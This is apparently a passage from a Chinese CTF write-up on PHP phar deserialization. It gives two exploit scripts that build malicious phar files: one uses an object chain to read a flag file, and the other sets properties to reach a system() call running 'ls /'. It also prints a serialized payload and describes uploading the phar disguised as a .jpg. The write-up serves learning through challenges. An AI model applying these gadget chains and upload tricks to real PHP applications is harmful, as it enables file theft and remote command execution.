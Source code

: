 ```php
$b = new Show();
$c = new Test();
$c->params['source'] = '/var/www/html/f1ag.php';
$a->str = $b;
$b->str['str'] = $c;
$phar = new Phar('test1.phar');
$phar->startBuffering();
$phar->setStub('<? __HALT_COMPILER();?>');
$phar->setMetadata($a);
$phar->addFromString('test1.txt','test1');
$phar->stopBuffering();
?>
//O:5:"C1e4r":2:{s:4:"test";N;s:3:"str";O:4:"Show":2:{s:6:"source";N;s:3:"str";a:1:{s:3:"str";O:4:"Test":2:{s:4:"file";N;s:6:"params";a:1:{s:6:"source";s:22:"/var/www/html/f1ag.php";}}}}}
```

（这里我原本把phar放进010改一下的，发现根本不用，因为source为空……）

直接上传（我这里改成2.jpg，至于原因可以看看前面）

但是我们并不知道文件的名字（因为前面有一段上传之后将文件名和servername连起来进行MD5编码，破解起来似乎有点麻烦？）

看看能不能直接进/upload

![image-20231127162915274](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231127162915274.png)

然后用phar读

![image-20231127164036216](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231127164036216.png)

得到flag



为了进入system，我们需要让God=ture且user=admin，这个前提是你得绕过`__wakeup()`

这里的话绕过`__wakeup()`也很简单，把输出后的序列化字符串改一下属性就行

```php
<?php
class Story{
    private $user;
    public $pass;
    public $eating;
    public $God;
}
$a = new Story();
$a->user = 'admin';
$a->God = 'true';
$a->eating = 'ls /';
$phar = new Phar("exp.phar");                     //.phar文件
$phar->startBuffering(); 
$phar->setStub('<?php __HALT_COMPILER();?>');   //phar固定的格式
$phar->setMetadata($a);                       //触发的头是C1e4r类，所以传入C1e4r对象
$phar->addFromString("exp.txt", "text");          //生成签名
$phar->stopBuffering();
?>
```

